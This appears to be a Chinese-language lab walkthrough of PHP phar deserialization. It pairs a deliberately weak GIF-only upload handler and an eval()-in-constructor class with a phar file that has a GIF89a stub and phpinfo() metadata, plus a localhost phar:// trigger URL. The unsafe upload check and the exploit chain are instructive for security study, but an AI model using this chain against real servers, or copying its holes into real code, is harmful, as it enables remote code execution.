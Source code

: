```php
  if (($_FILES["file"]["type"]=="image/gif")&&(substr($_FILES["file"]["name"], strrpos($_FILES["file"]["name"], '.')+1)=='gif')) {
  echo "upload:".$_FILES['file']['name'];
echo "type:".$_FILES['file']['type'];
echo "temp file:".$_FILES['file']['tmp_name'];

// 处理上传文件
if (file_exists('upload_file/'.$_FILES['file']['name'])) {
  echo $_FILES['file']['name']."has already exited";
}
else{
  move_uploaded_file($_FILES['file']['tmp_name'], "upload_file/".$_FILES['file']['name']);
  echo "stored in "."upload_file/".$_FILES['file']['name'];
}
}
else{
  echo "invalid file,you can only upload gif file!";
}
<?php

class Test
{
	public $data = 'echo "hello world!"';
	function __construct()
	{
		eval($this->data);
	}
}
if ($_GET['file']) {
	file_exists($_GET['file']);
}
```

 绕过思路：GIF格式验证可以通过在文件头部添加GIF89a绕过。  

```php
<?php
class TestObject{
}
$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>");
$o = new TestObject();
$o->data = "phpinfo();";
$phar->setMetadata($o);
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();
//生成phar.phar文件
```

 生成的phar.phar修改后缀名phar.gif，再上传该文件，用phar协议解析：  

```php
http://localhost/tmp/04-evil.php?file=phar://upload_file/phar.gif
```
